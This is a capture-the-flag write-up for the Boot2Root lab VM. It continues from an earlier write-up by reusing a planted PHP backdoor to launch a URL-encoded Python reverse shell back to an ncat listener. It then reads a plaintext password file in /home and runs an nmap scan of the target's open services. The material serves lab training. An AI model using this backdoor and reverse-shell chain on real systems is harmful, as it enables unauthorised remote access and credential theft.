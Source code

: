 # Boot2Root - Writeup 2

Let's start again from the part **Reverse shell** in the first writeup

Remember, we had a reverse shell with the php backdoor on the forum.

Start it with netcat (explanations on the first writeup)

**Client** (our machine):

```sh
$> ncat -nvklp 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```

**Server**:

```sh
curl --insecure 'https://192.168.1.22/forum/templates_c/backdoor.php?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%2Cpty%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.1.47%22%2C1234%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dpty.spawn%28%22%2Fbin%2Fbash%22%29%3B%27'
```

We can search some other informations on the server to find an other way to be root...

```sh
$ cd /
$ ls
bin    dev   initrd.img  mnt   rofs  sbin     sys  var
boot   etc   lib	 opt   root  selinux  tmp  vmlinuz
cdrom  home  media	 proc  run   srv      usr
```
```sh
$ cd home
$ ls
LOOKATME  ft_root  laurie  laurie@borntosec.net  lmezard  thor	zaz
```
```sh
$ cd LOOKATME
$ ls
password
$ cat password
lmezard:G!@M6f4Eatau{sF"
```
Found a login/password again.
`lmezard`
`G!@M6f4Eatau{sF"`

Try it on ssh... Nope.

Remember all the open services

```
$ nmap 192.168.1.22                                                                    !
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-04 16:50 CEST
Nmap scan report for borntosechackme.home (192.168.1.22)
Host is up (0.00025s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
```
We can try ftp